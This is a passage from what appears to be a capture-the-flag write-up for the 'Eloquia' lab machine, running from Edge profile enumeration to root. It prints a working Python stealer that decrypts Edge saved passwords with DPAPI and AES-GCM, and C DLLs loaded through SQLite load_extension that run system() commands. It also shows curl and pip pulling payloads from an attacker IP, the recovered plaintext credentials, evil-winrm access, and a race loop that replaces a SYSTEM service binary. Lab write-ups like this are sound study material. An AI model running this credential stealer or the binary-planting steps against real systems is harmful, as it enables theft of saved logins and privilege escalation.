10/21/2025  02:30 PM    <DIR>          commerce_subscription_db
04/20/2024  12:14 PM    <DIR>          Continuous Migration
04/20/2024  12:14 PM            10,240 DashTrackerDatabase
04/20/2024  12:14 PM                 0 DashTrackerDatabase-journal
04/20/2024  12:11 PM    <DIR>          databases
10/21/2025  02:30 PM    <DIR>          DawnGraphiteCache
10/21/2025  02:30 PM    <DIR>          DawnWebGPUCache
04/20/2024  12:11 PM             8,000 default_cloud_config.json
10/21/2025  02:35 PM            28,672 DIPS
10/21/2025  02:35 PM                 0 DIPS-journal
10/21/2025  02:30 PM    <DIR>          discounts_db
04/20/2024  12:11 PM    <DIR>          Download Service
10/21/2025  02:30 PM    <DIR>          DualEngine
04/20/2024  12:11 PM            71,348 Edge Profile.ico
04/20/2024  12:11 PM    <DIR>          EdgeCoupons
04/20/2024  12:11 PM    <DIR>          EdgeEDrop
04/20/2024  12:11 PM    <DIR>          EdgeHubAppUsage
10/21/2025  02:35 PM    <DIR>          EdgePushStorageWithConnectTokenAndKey
04/20/2024  12:11 PM    <DIR>          EntityExtraction
04/20/2024  12:11 PM    <DIR>          Extension Rules
04/20/2024  12:11 PM    <DIR>          Extension Scripts
10/21/2025  02:30 PM    <DIR>          Extension State
04/20/2024  12:11 PM             4,096 ExtensionActivityComp
04/20/2024  12:11 PM                 0 ExtensionActivityComp-journal
04/20/2024  12:11 PM            32,768 ExtensionActivityEdge
04/20/2024  12:11 PM                 0 ExtensionActivityEdge-journal
10/21/2025  02:32 PM            24,576 Favicons
10/21/2025  02:32 PM                 0 Favicons-journal
04/20/2024  12:11 PM    <DIR>          Feature Engagement Tracker
10/21/2025  02:30 PM    <DIR>          GPUCache
04/20/2024  12:11 PM            16,384 heavy_ad_intervention_opt_out.db
04/20/2024  12:11 PM                 0 heavy_ad_intervention_opt_out.db-journal
10/22/2025  11:54 AM           167,936 History
10/22/2025  11:54 AM                 0 History-journal
04/20/2024  12:11 PM            28,672 HubApps Icons
04/20/2024  12:11 PM                 0 HubApps Icons-journal
10/21/2025  02:30 PM           110,592 InterestGroups
10/21/2025  02:30 PM                 0 InterestGroups-journal
10/21/2025  02:25 PM    <DIR>          JumpListIconsRecentClosed
04/20/2024  12:11 PM    <DIR>          JumpListIconsRecentWorkspacesV2
10/22/2025  11:54 AM            45,056 load_statistics.db
04/20/2024  12:11 PM    <DIR>          Local Storage
04/20/2024  12:11 PM                 0 LOCK
10/21/2025  02:30 PM                 0 LOG
10/21/2025  02:23 PM                 0 LOG.old
10/22/2025  11:54 AM            51,200 Login Data
10/22/2025  11:54 AM                 0 Login Data-journal
04/20/2024  12:14 PM            24,576 MediaDeviceSalts
04/20/2024  12:14 PM                 0 MediaDeviceSalts-journal
10/21/2025  02:30 PM    <DIR>          Network
10/21/2025  02:32 PM            53,248 Network Action Predictor
10/21/2025  02:32 PM                 0 Network Action Predictor-journal
04/20/2024  12:11 PM    <DIR>          Nurturing
10/21/2025  02:30 PM    <DIR>          optimization_guide_hint_cache_store
10/21/2025  02:30 PM    <DIR>          parcel_tracking_db
10/21/2025  02:32 PM    <DIR>          Password_Diagnostics
10/21/2025  02:30 PM    <DIR>          PersistentOriginTrials
10/22/2025  11:54 AM            12,867 Preferences
04/20/2024  12:11 PM                33 PreferredApps
04/20/2024  12:14 PM            20,480 PrivateAggregation
04/20/2024  12:14 PM                 0 PrivateAggregation-journal
04/20/2024  12:11 PM    <DIR>          Safe Browsing Network
04/20/2024  12:11 PM            23,927 Secure Preferences
04/20/2024  12:11 PM    <DIR>          Segmentation Platform
10/21/2025  02:30 PM    <DIR>          Session Storage
10/21/2025  02:30 PM    <DIR>          Sessions
04/20/2024  12:11 PM    <DIR>          Shared Dictionary
04/20/2024  12:11 PM                 0 SharedStorage
10/21/2025  02:30 PM    <DIR>          shared_proto_db
10/21/2025  02:31 PM            20,480 Shortcuts
10/21/2025  02:31 PM                 0 Shortcuts-journal
10/21/2025  02:30 PM    <DIR>          Site Characteristics Database
04/20/2024  12:11 PM    <DIR>          Sync Data
10/21/2025  02:24 PM            20,480 Top Sites
10/21/2025  02:24 PM                 0 Top Sites-journal
10/21/2025  02:32 PM           131,072 Visited Links
10/22/2025  11:54 AM           229,376 Web Data
10/22/2025  11:54 AM                 0 Web Data-journal
10/21/2025  02:32 PM            14,336 WebAssistDatabase
10/21/2025  02:32 PM                 0 WebAssistDatabase-journal
04/20/2024  12:11 PM    <DIR>          WebStorage
04/20/2024  12:11 PM    <DIR>          Workspaces
              46 File(s)      1,165,137 bytes
              46 Dir(s)   5,459,853,312 bytes free
 
===== IMPORTANT FILES ===== 
 Volume in drive C has no label.
 Volume Serial Number is 22C6-32BB

 Directory of C:\Users\web\AppData\Local\Microsoft\Edge\User Data

10/22/2025  11:54 AM            57,640 Local State
               1 File(s)         57,640 bytes
               0 Dir(s)   5,459,853,312 bytes free
 Volume in drive C has no label.
 Volume Serial Number is 22C6-32BB

 Directory of C:\Users\web\AppData\Local\Microsoft\Edge\User Data\Default

10/22/2025  11:54 AM            51,200 Login Data
               1 File(s)         51,200 bytes
               0 Dir(s)   5,459,853,312 bytes free
 Volume in drive C has no label.
 Volume Serial Number is 22C6-32BB

 Directory of C:\Users\web\AppData\Local\Microsoft\Edge\User Data\Default

File Not Found
 
===== FULL RECURSIVE (filtered) ===== 
C:\Users\web\AppData\Local\Microsoft\Edge\User Data\Local State
C:\Users\web\AppData\Local\Microsoft\Edge\User Data\Default\Login Data
C:\Users\web\AppData\Local\Microsoft\Edge\User Data\Default\Login Data-journal
```

### What This Output Confirms

Buried at the very end, the `FULL RECURSIVE (filtered)` section gives us exactly what we came for — the two full, absolute paths we need for the decryption script:

- `C:\Users\web\AppData\Local\Microsoft\Edge\User Data\Local State` — the DPAPI-protected master key.
- `C:\Users\web\AppData\Local\Microsoft\Edge\User Data\Default\Login Data` — the SQLite database of encrypted saved logins.

The `web` service account evidently had Edge installed and used at some point (likely by whoever provisioned/tested the box, or by automated tooling that occasionally opens a browser) and left saved credentials behind — a very realistic "found creds in a browser profile" scenario that shows up constantly in real internal penetration tests against service/jump-box accounts.


## Writing the DPAPI Decryption Script

Compiling a C DLL to perform DPAPI unprotection and AES-GCM decryption inline would be painful, so instead we write the decryptor in **Python**, using Windows' own `pywin32` bindings to call `CryptUnprotectData()` directly, and `pycryptodomex` for the AES-GCM step. This script doesn't run on our attack box — it's designed to be dropped onto, and executed on, the **target** itself (where `win32crypt.CryptUnprotectData()` is actually meaningful, since it must run as the `web` account to succeed).

`edge_decrypt.py`

```python
import os, json, base64, sqlite3, shutil
import win32crypt
from Cryptodome.Cipher import AES

def get_master_key():
    with open(r"C:\Users\web\AppData\Local\Microsoft\Edge\User Data\Local State", "r", encoding="utf-8") as f:
        local_state = json.loads(f.read())
    encrypted_key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])[5:]
    return win32crypt.CryptUnprotectData(encrypted_key, None, None, None, 0)[1]

def decrypt_password(buff, master_key):
    try:
        iv = buff[3:15]
        payload = buff[15:]
        cipher = AES.new(master_key, AES.MODE_GCM, iv)
        return cipher.decrypt(payload)[:-16].decode()
    except:
        return "Failed"

master_key = get_master_key()
shutil.copy2(r"C:\Users\web\AppData\Local\Microsoft\Edge\User Data\Default\Login Data", r"C:\temp\LoginData.db")

conn = sqlite3.connect(r"C:\temp\LoginData.db")
cursor = conn.cursor()
cursor.execute("SELECT action_url, username_value, password_value FROM logins")

with open(r"C:\Web\Eloquia\static\assets\images\blog\creds.txt", "w") as f:
    for row in cursor.fetchall():
        url, user, enc = row
        pwd = decrypt_password(enc, master_key)
        f.write(f"URL: {url}\nUser: {user}\nPass: {pwd}\n\n")

print("Done")
```

### Line-by-Line: How the Decryption Actually Works

- **`get_master_key()`** — opens the `Local State` JSON file and pulls out `os_crypt.encrypted_key`, a base64-encoded blob. Chromium prefixes this value with the literal bytes `"DPAPI"` before base64-encoding it (a version-tagging convention), so `[5:]` slices off those first 5 bytes to get the *actual* DPAPI-encrypted blob. It then calls `win32crypt.CryptUnprotectData()` — a direct Python binding to the real Win32 `CryptUnprotectData()` API — passing `None` for the optional entropy/prompt arguments. This is the step that **only works because the Python process calling it is itself running as the `web` user**; DPAPI transparently uses the calling process's own user context to derive the decryption key, with no password or extra secret needed from us. The function returns a tuple of `(description, decrypted_bytes)`, so `[1]` grabs just the raw decrypted AES key.
- **`decrypt_password()`** — Chromium's "v10/v11"-era encrypted password format stores each blob as: a 3-byte version prefix (`b'v10'` or `b'v11'`), followed by a 12-byte **GCM nonce/IV**, followed by the **ciphertext + 16-byte GCM authentication tag appended at the end**. The slicing (`buff[3:15]` for the IV, `buff[15:]` for everything else) reflects exactly that layout. `AES.new(master_key, AES.MODE_GCM, iv)` reconstructs the same AES-256-GCM cipher Chromium used to encrypt it, and `cipher.decrypt(payload)[:-16]` decrypts and strips the trailing 16-byte authentication tag to recover the plaintext password. The broad `try/except` simply returns the string `"Failed"` for any row that doesn't decrypt cleanly (e.g. corrupted entries, or Chromium's newer OS-bound "app-bound encryption" on more recent browser builds, which this older technique can't unwrap).
- **The main body** — copies `Login Data` to `C:\temp\LoginData.db` first (sensible defensive practice: Chrome/Edge keep the database file locked while the browser process is running, so operating on a copy avoids a `sqlite3.OperationalError: database is locked`), opens it with the standard library `sqlite3` module, and runs a plain `SELECT action_url, username_value, password_value FROM logins` — the standard schema Chromium-based browsers use for the saved-password table. For every row it decrypts the password and writes `URL / User / Pass` triplets to `creds.txt` — once again placed inside the web-servable `static/assets/images/blog/` directory so we can simply `curl` it afterward, continuing the same exfiltration pattern used throughout the engagement.

## Deploying the Script to the Target

The decryptor needs to physically exist on the target's filesystem before it can be executed there. Rather than trying to smuggle an entire Python script through a single `system()` call inside a DLL, the cleanest approach is to stand up a small HTTP server on our attack box and have the target `curl`/download the script from us — essentially a miniature "download cradle," the Windows/PowerShell equivalent of a classic Linux `wget`-based payload staging technique.

`write_py.c`

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

__declspec(dllexport) int sqlite3_writepy_init(void *db, char **err, void *api) {
    system("mkdir C:\\temp 2>nul");
    system("curl http://10.10.17.133:8000/edge_decrypt.py -o C:\\temp\\edge_decrypt.py");
    return 0;
}
```

This payload does two things: `mkdir C:\temp 2>nul` creates a scratch working directory (the `2>nul` silently discards the error that would otherwise be printed if the folder already exists — Windows' `mkdir` has no `-p`/"don't fail if it exists" flag, so this is the idiomatic CMD workaround), and then uses the Windows-native `curl.exe` (bundled with Windows 10/Server 2019+ by default) to pull `edge_decrypt.py` from our attack box's own IP and save it into that folder.

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia]
└─$ x86_64-w64-mingw32-gcc -shared -o write_py.dll write_py.c
```

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

A plain Python `http.server` instance on our attack box, serving the current directory (which contains `edge_decrypt.py`) over plain HTTP on port 8000 — the exact address referenced inside `write_py.c`.

```sql
SELECT load_extension('C:\Web\Eloquia\static\assets\images\blog\write_py.dll', 'sqlite3_writepy_init');
```

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.244.81 - - [03/Oct/2026 03:36:35] "GET /edge_decrypt.py HTTP/1.1" 200 -
```

The log line confirms the target (`10.129.244.81`) successfully reached back out to our listener and pulled down the script with an HTTP `200`. `edge_decrypt.py` now exists at `C:\temp\edge_decrypt.py` on the target.

## Executing the Decryptor Remotely

Now let's run the decryptor:

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

__declspec(dllexport) int sqlite3_rundecrypt_init(void *db, char **err, void *api) {
    system("\"C:\\Program Files\\Python311\\python.exe\" C:\\temp\\edge_decrypt.py > C:\\Web\\Eloquia\\static\\assets\\images\\blog\\runlog.txt 2>&1");
    return 0;
}
```

Earlier enumeration already told us Python 3.11 is installed under `C:\Program Files\Python311\` (it's what runs both Django dev servers), so this payload simply invokes that interpreter directly against our staged script, capturing both stdout and stderr (`2>&1`) into a `runlog.txt` for easy debugging — a good practice whenever running something that might fail with an uninformative blank result.

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia]
└─$ x86_64-w64-mingw32-gcc -shared -o run_decrypt.dll run_decrypt.c
```

```sql
SELECT load_extension('C:\Web\Eloquia\static\assets\images\blog\run_decrypt.dll', 'sqlite3_rundecrypt_init');
```

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia]
└─$ curl http://eloquia.htb/static/assets/images/blog/creds.txt
```

But no output?

Checking the log file we had the script write for exactly this situation:

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia]
└─$ curl http://eloquia.htb/static/assets/images/blog/runlog.txt
Traceback (most recent call last):
  File "C:\temp\edge_decrypt.py", line 3, in <module>
    from Cryptodome.Cipher import AES
ModuleNotFoundError: No module named 'Cryptodome'
```


## Overcoming the Missing Dependency: Offline pip Install

Okay so it needs `pycryptodomex`, I have an idea for this. The target has **no internet access** — only our attack box is reachable from it (the same `curl`-to-our-`http.server` trick used to stage the script), so a normal `pip install pycryptodomex` would fail outright since PyPI itself isn't reachable. The fix: **pre-download the exact wheel file ourselves**, matching the target's Python version and architecture, and serve *that* file from our own HTTP server instead, pointing `pip` at it directly rather than at the real internet.

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia/wheels]
└─$ sudo pip3 download pycryptodomex --only-binary=:all: --platform win_amd64 --python-version 3.11 --implementation cp --abi abi3 -d .
[sudo] password for kuroshiro: 
Collecting pycryptodomex
  File was already downloaded /home/kuroshiro/HTB/Eloquia/wheels/pycryptodomex-3.23.0-cp37-abi3-win_amd64.whl
Successfully downloaded pycryptodomex
```

Breaking down the flags on `pip3 download`: `--only-binary=:all:` forbids pip from grabbing a source (`.tar.gz`) distribution that would need a local C compiler to build — we need a pre-built **wheel**. `--platform win_amd64` forces pip to fetch the Windows 64-bit build rather than whatever Linux build matches our actual attack box. `--python-version 3.11` and `--implementation cp` (CPython) target the specific interpreter version confirmed present on the target (`Python311`). `--abi abi3` requests the *stable ABI* tag, which (as the resulting filename `pycryptodomex-3.23.0-cp37-abi3-win_amd64.whl` shows) makes the wheel binary-compatible across a wide range of CPython 3.x minor versions rather than being pinned to exactly 3.11 — useful insurance in case our version assumption was slightly off. `-d .` just sets the download directory. The result is a single `.whl` file sitting locally on our attack box, ready to be served.

```c
#include <windows.h>
#include <stdlib.h>

__declspec(dllexport) int sqlite3_rundecrypt_init(void *db, char **err, void *api) {
    system("\"C:\\Program Files\\Python311\\python.exe\" -m pip install "
           "--no-index "
           "--find-links http://10.10.17.133:8000/ "
           "--trusted-host 10.10.17.133 "
           "pycryptodomex "
           "--target C:\\temp "
           "> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\runlog.txt 2>&1");
    return 0;
}
```

This is the critical "offline install" trick, expressed as `pip` flags: `--no-index` tells `pip` **not** to contact PyPI at all. `--find-links http://10.10.17.133:8000/` tells it to instead treat our own attack-box HTTP server as the package index — `pip` will scan the directory listing it returns for filenames matching the package it's looking for. `--trusted-host 10.10.17.133` suppresses the HTTPS-certificate warning/refusal that `pip` would otherwise raise for a plain-HTTP, non-PyPI source. `--target C:\temp` installs the package's files directly into our working scratch directory rather than Python's real `site-packages`, both because we likely don't have write access to the Python installation directory as the `web` account, and because `C:\temp` is already on `sys.path` from the perspective of a script run with `python.exe C:\temp\edge_decrypt.py` *if* we also add it, or more simply because the next step will reference it as an extra import path. (Note this redefines the *same* exported symbol name, `sqlite3_rundecrypt_init`, as the earlier `run_decrypt.c` — reusing the same DLL filename and entry point for a different purpose at a different point in time is fine, since each `load_extension()` call simply maps whatever is at that path on disk *at that moment*.)

Nowlet's download it through the victim (same procedure)

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia/wheels]
└─$ sudo x86_64-w64-mingw32-gcc -shared -o pycrypto_install.dll pycrypto_install.c
```

```sql
SELECT load_extension('C:/Web/Eloquia/static/assets/images/blog/pycrypto_install.dll', 'sqlite3_rundecrypt_init');
```

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia/wheels]
└─$ python3 -m http.server 8000                              
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.244.81 - - [03/Oct/2026 03:52:35] "GET / HTTP/1.1" 200 -
10.129.244.81 - - [03/Oct/2026 03:52:35] "GET /pycryptodomex-3.23.0-cp37-abi3-win_amd64.whl HTTP/1.1" 200 -
```

The access log confirms exactly the behavior `--find-links` is supposed to produce: `pip` on the target first requested the **directory listing** (`GET /`) to discover what package files our "index" offers, then correctly identified and downloaded the matching wheel file by name.

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia/wheels]
└─$ curl http://eloquia.htb/static/assets/images/blog/runlog.txt                                                                       
Looking in links: http://10.10.17.133:8000/
Collecting pycryptodomex
  Downloading http://10.10.17.133:8000/pycryptodomex-3.23.0-cp37-abi3-win_amd64.whl (1.8 MB)
     ---------------------------------------- 1.8/1.8 MB 594.7 kB/s eta 0:00:00
Installing collected packages: pycryptodomex
Successfully installed pycryptodomex-3.23.0
```

The install log confirms success — `pycryptodomex` is now unpacked into `C:\temp`, which means the `from Cryptodome.Cipher import AES` import inside `edge_decrypt.py` will resolve correctly as long as `C:\temp` is importable (Python automatically adds the invoking script's own directory to `sys.path[0]`, and since we installed the package `--target C:\temp` which is the very same folder `edge_decrypt.py` lives in, the import now works with zero additional configuration).

## Extracting Olivia.KAT's Credentials

Now let's run the decryptor again

```sql
SELECT load_extension('C:\Web\Eloquia\static\assets\images\blog\run_decrypt.dll', 'sqlite3_rundecrypt_init');
```

Re-triggering the original `run_decrypt.dll` from earlier (now that its dependency is satisfied) and pulling the result:

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia/wheels]
└─$ curl http://eloquia.htb/static/assets/images/blog/creds.txt                                                                        
URL: 
User: olivia.kat
Pass: Failed

URL: http://eloquia.htb/accounts/login/
User: Olivia.KAT
Pass: S3cureP@sswdIGu3ss

URL: 
User: test
Pass: testtest1234!

URL: 
User: olivia.kat
Pass: S3cureP@sswd3Openai
```

**Success.** The decryptor recovered four saved-login entries. Two of them decrypted to `"Failed"` or otherwise look like red herrings/old values (the `test` / `testtest1234!` entry in particular reads like throwaway testing data unrelated to a real account). The entry that matters is unambiguous: **`Olivia.KAT` / `S3cureP@sswdIGu3ss`**, explicitly saved against the real Eloquia login page URL (`http://eloquia.htb/accounts/login/`) — strong evidence this is `Olivia.KAT`'s genuine, currently-valid Windows/application password, voluntarily saved by Edge at some point while she (or an automated process acting on her behalf) logged in. This is precisely the account the Phase 4 enumeration flagged as a member of **`Remote Management Users`** — meaning we now have everything required to pivot from "arbitrary-but-clumsy file-based code execution as `web`" to a **real, interactive WinRM shell as a more privileged account**.

---

# Phase 6: Lateral Movement via WinRM

## Validating Credentials

Before firing up an interactive session, it's good practice to validate credentials non-interactively first — `netexec` (the actively maintained successor to CrackMapExec, invoked here as `nxc`) can authenticate against a WinRM endpoint and report success/failure in a single request, without the overhead of spawning a full shell.

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia/wheels]
└─$ nxc winrm 10.129.244.81 -u Olivia.KAT -p 'S3cureP@sswdIGu3ss'                  
WINRM       10.129.244.81   5985   ELOQUIA          [*] Windows 10 / Server 2019 Build 17763 (name:ELOQUIA) (domain:Eloquia) 
WINRM       10.129.244.81   5985   ELOQUIA          [+] Eloquia\Olivia.KAT:S3cureP@sswdIGu3ss (Pwn3d!)
```

The `[+] ... (Pwn3d!)` tag is `netexec`'s explicit way of telling you the credentials were not just *valid*, but specifically granted **WinRM/PSRemoting access** — i.e. this account is confirmed to be in the `Remote Management Users` group (or local `Administrators`), matching exactly what we deduced from the Phase 4 enumeration output.

## Establishing an Interactive Session with Evil-WinRM

With credentials confirmed, `evil-winrm` gives us a full, interactive PowerShell session over the WS-Management protocol — finally escaping the slow compile/upload/load/curl loop that's driven every action since Phase 3.

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia/wheels]
└─$ evil-winrm -i 10.129.244.81 -u Olivia.KAT -p 'S3cureP@sswdIGu3ss'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Olivia.KAT\Documents> 
```

The warning about `quoting_detection_proc`/Reline is a benign, version-mismatch cosmetic issue in the Ruby `evil-winrm` client's tab-completion library — it doesn't affect functionality, only autocomplete convenience. The important line is the last one: a genuine, interactive PowerShell prompt running in the context of `Olivia.KAT` on the target.

## Enumerating Olivia.KAT's Desktop

```powershell
*Evil-WinRM* PS C:\Users\Olivia.KAT\Desktop> ls


    Directory: C:\Users\Olivia.KAT\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/30/2024   1:53 PM           1558 Failure2Ban - Prototype - Shortcut.lnk
-a----         5/6/2024   2:00 PM        1331957 Logfile.PML
-a----        4/22/2024   7:02 AM            362 Todo.txt
```

Three files, each a clue toward the final privilege escalation:

- **`Failure2Ban - Prototype - Shortcut.lnk`** — a Windows shortcut (`.lnk`) to a program named "Failure2Ban - Prototype." This immediately matches the `*Failure*` directory our Phase 4 enumeration script specifically went hunting for under `C:\Program Files\` — confirming it as the custom, homegrown security tool we suspected. The name is an obvious play on **Fail2Ban** (the well-known Linux brute-force protection daemon), strongly suggesting this is some kind of custom intrusion-prevention service for Windows — built, tested, and left behind by whoever developed it (likely `Olivia.KAT`, given it's sitting on her Desktop).
- **`Logfile.PML`** — a `.PML` file is the native binary log format produced by **Sysinternals Process Monitor (Procmon)**, a tool used to capture extremely detailed, real-time file system, registry, and process activity. Finding one of these on a developer's Desktop is a strong signal that she was actively *debugging* the Failure2Ban prototype — likely watching exactly which files and registry keys it touches, which is exactly the kind of artifact that can reveal timing/race-condition behavior if examined closely (and is consistent with the escalation technique we ultimately use).
- **`Todo.txt`** — a plain-text development to-do list, almost always gold during an assessment, since developers tend to be bluntly honest about what's broken or unfinished in their own notes.

### Reading Between the Lines: The Todo.txt Clues

```powershell
*Evil-WinRM* PS C:\Users\Olivia.KAT\Desktop> cat Todo.txt
[X] implement App.config file
[X] implement file type filtering
[] read firewall rules on service start
[] implement malicious input detection algorithm
[] avoid reading the whole "log" file on every service recall
-------------------------------
Problem: service is eating the CPU at huge log file size
Solution(temporary): Log rotation & service restart
```

This is the single most important piece of intelligence in the entire engagement, and it rewards careful reading line by line:

- **`[X] implement App.config file` / `[X] implement file type filtering`** — these two items are *done*. Noted, but not directly useful to us.
- **`[ ] read firewall rules on service start`**, **`[ ] implement malicious input detection algorithm`** — both *unfinished*, telling us this "Failure2Ban" IPS prototype currently does **no input validation or filtering of what it's protecting against** — it's immature, half-built security software, exactly the kind of thing likely to contain exploitable bugs.
- **`[ ] avoid reading the whole "log" file on every service recall`**, paired with **`Problem: service is eating the CPU at huge log file size`** and **`Solution (temporary): Log rotation & service restart`** — this is the critical operational detail. The developer is explicitly describing a **known performance bug**: the service re-reads its entire log file from scratch every time it's invoked, which becomes expensive as the log grows, consuming excessive CPU. Her *temporary* fix, until a proper code fix ships, is to periodically **rotate the log and restart the service**.

**Why this matters so much:** a service that gets **automatically, periodically restarted** is a service whose **binary file gets reloaded from disk repeatedly, on a predictable cadence, by something running at a higher privilege level than us**. If the executable's *file* on disk can be replaced by a lower-privileged user in the brief window between the old process exiting and the new one being launched — or simply at any point before the next scheduled restart — then swapping in our own malicious binary means **the next automatic restart will run *our* code instead, inheriting whatever privilege level the service itself runs under**. This is a **binary-planting / TOCTOU (time-of-check-to-time-of-use) race condition**, and the Todo.txt note is effectively a developer confirming, in her own words, exactly when and why that restart happens.

---

# Phase 7: Privilege Escalation — Binary-Planting Race Condition on Failure2Ban

## Understanding the Vulnerable Service

Putting together everything gathered so far:

- `Failure2Ban - Prototype` is a custom Windows service/program located at `C:\Program Files\Qooqle IPS Software\Failure2Ban - Prototype\Failure2Ban\bin\Debug\Failure2Ban.exe` (the path revealed once we browse to it interactively via the new WinRM shell — a `bin\Debug\` folder structure is itself a tell that this is an unoptimized, actively-developed .NET/Visual-Studio-built debug binary, not a hardened release build).
- It almost certainly runs with elevated privileges (consistent with it being billed as an **I**ntrusion **P**revention **S**ystem, which by nature needs broad system access to monitor and react to activity — and, as we'll confirm, it runs as **SYSTEM**).
- It is **automatically restarted periodically** as a workaround for its own CPU/log-size bug — information straight from the developer's own Todo.txt.
- Its executable file resides at a path writable by `Olivia.KAT` (otherwise she couldn't have been actively developing/testing it from her own account).



## Crafting the Malicious Payload

The replacement binary needs to be a drop-in, compiled Windows **executable** (not a DLL this time — we're replacing the service's actual `.exe`, not loading a library into an existing process), and its job is simple: grab the root flag and make it available somewhere we — running merely as `Olivia.KAT` — can still read.

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

int main() {
    CopyFileA("C:\\Users\\Administrator\\Desktop\\root.txt", "C:\\temp\\root.txt", FALSE);
    Sleep(60000);

    return 0;
}
```

**Why it's written this way:** `CopyFileA()` is a direct Win32 API call (rather than shelling out via `system()`, which would add unnecessary overhead and complexity for a binary that needs to start up and finish quickly) that copies `root.txt` from the `Administrator`'s Desktop — a location `Olivia.KAT` has no read access to — into `C:\temp`, a folder we *do* control and can read from freely. This only works because, once the service restarts and launches this binary *as the service*, the process inherits **SYSTEM's** file-access rights, which can read literally anything on the local filesystem, bypassing the NTFS permissions that would otherwise block `Olivia.KAT` from touching `Administrator`'s Desktop directly. The final argument to `CopyFileA`, `FALSE`, means "do **not** fail if the destination already exists" (i.e. overwrite it) — useful if the race needs more than one successful hijack cycle to land cleanly. `Sleep(60000)` pauses for 60 seconds before the process would otherwise exit — this is a small but deliberate touch: if `Failure2Ban.exe` normally keeps running (rather than exiting immediately), having our replacement also stay resident for a while helps it blend in and avoids an instant restart-loop that a monitoring/watchdog mechanism might notice or that could interfere with our own repeated copy attempts.

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia]
└─$ x86_64-w64-mingw32-gcc -O2 -s -o hijack.exe hijack.c 
```

Compiled the same way as every other payload in this engagement, with two small additions worth noting: `-O2` enables compiler optimizations (smaller, faster resulting binary — not strictly necessary here, but good practice) and `-s` strips debug symbols from the output, keeping the final executable lean.

## Winning the Race

Because we don't know the *exact* moment the service's automatic restart will fire, the reliable approach is to **spin in a tight loop, continuously attempting to overwrite the service's binary on disk**, until the brief window opens where the real process isn't holding an exclusive file lock on its own `.exe` (which happens only around the moment it's being stopped/restarted) — then our copy slips through right before the restart mechanism launches whatever currently sits at that path.

```powershell
$targetBinary = 'C:\Program Files\Qooqle IPS Software\Failure2Ban - Prototype\Failure2Ban\bin\Debug\Failure2Ban.exe'
$payload = 'C:\temp\hijack.exe'

while ($true) {
    try {
        Copy-Item $payload $targetBinary -Force -ErrorAction Stop
        Write-Host "[+] MAY ROOT FLAG KANA BUSSENG!"
        break
    } catch {
        Write-Host "." -NoNewline
    }
    Start-Sleep -Milliseconds 500
}
```

**How the race actually plays out:** `Copy-Item ... -Force -ErrorAction Stop` attempts to overwrite the live service binary. While `Failure2Ban.exe` is currently *running*, Windows holds an exclusive lock on its own executable image file, so this copy attempt will throw a sharing-violation exception — caught by the `catch` block, which just prints a `.` and the loop tries again half a second later (`Start-Sleep -Milliseconds 500`). The instant the watchdog/scheduled restart logic described in Olivia's Todo.txt **stops the old process** (releasing the file lock) and **before it finishes launching the new one**, there's a small window where the file is unlocked and replaceable. If our loop's `Copy-Item` happens to land inside that window, it succeeds — overwriting `Failure2Ban.exe` on disk with our `hijack.exe` — and loop breaks out, printing the success banner (a bit of Taglish/Filipino celebratory humor: roughly "may the root flag come out!"). Whatever restart mechanism was already *in flight* then proceeds to launch "`Failure2Ban.exe`" exactly as it normally would — except the bytes at that path are now entirely ours.

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia]
└─$ .\racerace.ps1
.
...
.
[+] MAY ROOT FLAG KANA BUSSENG!
```

The intermixed dots represent failed copy attempts (file still locked by the legitimate running process) accumulating over however many 500ms cycles it took for the actual restart event to occur — in this run, it only takes a handful of tries before the race is won.

## Capturing the Root Flag

```powershell
*Evil-WinRM* PS C:\temp> ls


    Directory: C:\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        10/3/2026   5:53 AM          14848 hijack.exe
-a----        10/3/2026   5:53 AM            399 racerace.ps1
-ar---        10/3/2026   2:13 AM             34 root.txt
```

`root.txt` now exists in `C:\temp` — proof that the service restarted, launched our planted `hijack.exe` under its own (SYSTEM) privilege context, and that binary's `CopyFileA()` call successfully reached into the `Administrator`'s Desktop, a location otherwise completely inaccessible to `Olivia.KAT`.

```powershell
*Evil-WinRM* PS C:\temp> cat root.txt
9e7840678da59dd432d4092e857c7785
```

**Root flag captured.** Full SYSTEM-equivalent file access was achieved not through a memory-corruption exploit or a kernel bug, but purely through a **logic flaw in how a custom service was operated** — an undocumented restart cadence, combined with a writable binary path and no integrity verification (code signing, hash checking, or file-ACL hardening) on that path.

---

# Epilogue: How Every Vulnerability Connects

